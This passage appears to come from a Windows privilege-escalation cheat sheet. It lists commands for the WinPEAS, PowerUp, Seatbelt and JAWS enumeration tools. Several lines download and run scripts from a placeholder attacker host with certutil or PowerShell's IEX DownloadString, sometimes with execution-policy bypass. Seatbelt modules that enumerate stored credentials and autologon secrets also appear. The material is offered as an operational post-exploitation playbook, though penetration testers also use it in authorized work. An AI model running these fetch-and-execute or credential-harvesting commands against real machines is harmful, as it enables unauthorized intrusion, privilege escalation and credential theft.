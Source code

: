 
## Automated Scripts

### WinPEAS (Recommended)
```cmd
# Download and run (adjust URL as needed)
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winpeas.exe
winpeas.exe

# Alternative download methods
powershell.exe -c "(New-Object Net.WebClient).DownloadFile('http://<attacker-ip>/winPEAS.exe','winpeas.exe')"
powershell.exe -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/winPEAS.bat')"
```

### PowerUp (PowerShell)
```powershell
# Download and import
powershell -ep bypass
IEX(New-Object Net.WebClient).DownloadString('http://<attacker-ip>/PowerUp.ps1')

# Run all checks
Invoke-AllChecks

# Specific checks
Get-ServiceUnquoted
Get-ModifiableServiceFile
Get-ServiceFilePermission
Get-UnattendedInstallFile
```

### Seatbelt
```cmd
# Download and run
Seatbelt.exe -group=all
Seatbelt.exe -group=user
Seatbelt.exe -group=system
Seatbelt.exe -group=misc

# Specific modules
Seatbelt.exe WindowsAutoLogon
Seatbelt.exe LSASettings
Seatbelt.exe CredEnum
```

### JAWS (PowerShell)
```powershell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
```
